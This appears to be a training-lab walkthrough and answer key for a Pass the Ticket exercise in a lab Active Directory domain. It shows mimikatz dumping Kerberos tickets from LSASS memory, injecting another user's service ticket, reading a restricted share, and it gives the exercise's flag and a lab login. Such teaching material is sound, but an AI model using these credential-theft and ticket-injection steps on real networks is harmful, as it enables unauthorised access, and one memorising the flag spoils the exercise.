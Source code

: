 Topics: Pass the Ticket
# Questions 
Start VM Group 1 and try to execute the pass the ticket technique as illustrated in this section by first logging in to CLIENT76 as jen. Try to move laterally to web04 to get the flag located in the shared folder.
# Answer
OS{86514ce6935526f07274365129f07142}

# In the previous section, we used the overpass the hash technique (along with the captured NTLM hash) to acquire a Kerberos TGT, allowing us to authenticate using Kerberos. We can only use the TGT on the machine it was created for, but the TGS potentially offers more flexibility.

# The Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. In addition, if the service tickets belong to the current user, then no administrative privileges are required

# In this scenario, we are going to abuse an already existing session of the user dave. The dave user has privileged access to the backup folder located on WEB04 whereas our logged-in user jen does not.

# To demonstrate the attack angle, we are going to extract all the current TGT/TGS in memory and inject dave's WEB04 TGS into our own session. This will allow us to access the restricted folder.

# Let's first log in as jen to CLIENT76 and verify that we are unable to access the resource on WEB04. To do so, we'll try to list the content of the \\web04\backup folder from an administrative PowerShell command line session.

xfreerdp /cert-ignore /u:jen /d:corp.com /p:Nexus123! /v:192.168.195.76

PS C:\Windows\system32> whoami
PS C:\Windows\system32> ls \\web04\backup
ls : Access to the path '\\web04\backup' is denied.

# Confirming that jen has no access to the restricted folder, we can now launch mimikatz, enable debug privileges, and export all the TGT/TGS from memory with the sekurlsa::tickets /export command.

mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export

# Above command parsed the LSASS process space in memory for any TGT/TGS, which is then saved to disk in the kirbi mimikatz format.

# Inspecting the generated tickets indicates that dave had initiated a session. We can try to inject one of their tickets inside jen's sessions.

# We can verify newly generated tickets with dir, filtering out on the kirbi extension.
PS C:\Tools> dir *.kirbi
...
-a----        5/21/2024   5:55 AM           1577 [0;106961]-0-0-40810000-dave@cifs-web04.kirbi
...

# As many tickets have been generated, we can just pick any TGS ticket in the dave@cifs-web04.kirbi format and inject it through mimikatz via the kerberos::ptt command.
mimikatz # kerberos::ptt [0;106961]-0-0-40810000-dave@cifs-web04.kirbi
...
* File: '[0;106961]-0-0-40810000-dave@cifs-web04.kirbi': OK
...

PS C:\Tools> klist
...
Server: cifs/web04 @ CORP.COM
...
PS C:\Tools> ls \\web04\backup
...
-a----        9/13/2022   5:52 AM              0 backup_schemata.txt
-a----        5/21/2024   5:52 AM             78 flag.txt
...
PS C:\Tools> type \\web04\backup\flag.txt
OS{86514ce6935526f07274365129f07142}






